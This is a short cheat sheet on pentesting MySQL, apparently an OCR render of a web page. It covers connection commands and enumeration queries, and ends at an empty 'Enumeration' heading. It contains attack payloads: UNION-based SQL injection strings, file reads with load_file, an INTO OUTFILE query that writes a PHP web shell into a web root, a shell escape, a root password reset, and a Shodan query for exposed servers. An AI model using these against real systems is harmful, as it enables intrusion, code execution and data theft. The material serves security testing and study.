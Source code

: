 MYSQL

MYSQL default uses ports 3306

What is MYSQL?

MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

| 1 2  | PORT STATE SERVICE VERSION 3306/tcp open mysql  |
|------|-------------------------------------------------|

MYSQL Connection

| 1 2 3 4 5 6 7  | \#LOCAL  mysql -u root \# Connect to root without password mysql -u root -p \# A password will be asked (check someone)  \#REMOTE mysql -h \<Hostname\> -u root mysql -h \<Hostname\> -u root@localhost  |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Basic & interesting MySQL commands

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29  | show databases; use \<database\>; show tables; describe \<table_name\>;  select grantee, table_schema, privilege_type FROM schema_privileges; \#Exact privileges select user,file_priv from mysql.user where user='root'; \#File privileges select version(); \#version select @@version(); \#version select user(); \#User select database(); \#database name  \#Try to execute code select do_system('id'); \\! sh  \#Basic MySQLi Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables Union Select 1,2,3,4,column_name from information_schema.columns where table_name="\<TABLE NAME\>"  \#Read & Write select load_file('/var/lib/mysql-files/key.txt'); \#Read file select 1,2,"\<?php echo shell_exec(\$_GET['c']);?\>",4 into OUTFILE 'C:/xampp/htdocs/back.php'  \#Try to change MySQL root password UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root'; UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root'; FLUSH PRIVILEGES; quit;  |
|--------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1 2                                                                            | mysql -u username -p \< manycommands.sql \#A file with all the commands you want to execute mysql -u root -h 127.0.0.1 -e 'show databases;'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |

MYSQL Pentesting

| **![](media/af8e68b1d4ef60ad4ab180ccb81e05b5.png) Shodan search query :** |
|---------------------------------------------------------------------------|
| port:3306                                                                 |

Enumeration
